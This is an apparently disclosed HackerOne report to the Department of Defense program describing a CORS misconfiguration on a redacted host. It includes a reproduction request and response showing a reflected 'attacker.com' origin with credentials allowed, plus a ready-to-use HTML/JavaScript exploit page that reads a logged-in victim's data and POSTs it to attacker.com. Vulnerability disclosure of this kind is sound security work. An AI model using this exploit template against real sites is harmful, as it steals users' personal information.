 # (CORS) Cross-origin resource sharing misconfiguration on https://█████████

## Report Details
- **Report ID**: 995144
- **URL**: https://hackerone.com/reports/995144
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-30T19:35:49.063Z
- **Disclosed**: 2022-02-14T21:18:26.661Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Step-by-step Reproduction :


Send this request:
```
GET /██████████ HTTP/1.1
Host: █████
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
█████████
Origin: http://attacker.com

```
Receive : 

```
HTTP/1.1 200 OK
Cache-Control: max-age=0,must-revalidate
Expires: Wed, 31 Dec 1969 16:00:00 PST
Vary: Origin
Access-Control-Allow-Origin: http://attacker.com
Access-Control-Allow-Credentials: true
```

`Access-Control-Allow-Origin: http://attacker.com`
`Access-Control-Allow-Credentials: true`

cURL with response header 

██████


So you can write exploit:

```
<!DOCTYPE html>
<html>
<body>
<center>
<h2>exploit</h2>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText;
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://attacker.com", true);
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://█████/██████", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```

POC VIDEO

██████████

## Impact

Attacker would treat many victims to visit attacker’s website, if victim is logged in, then his personal information is recorded in attacker’s server.

## Attachments
No attachments
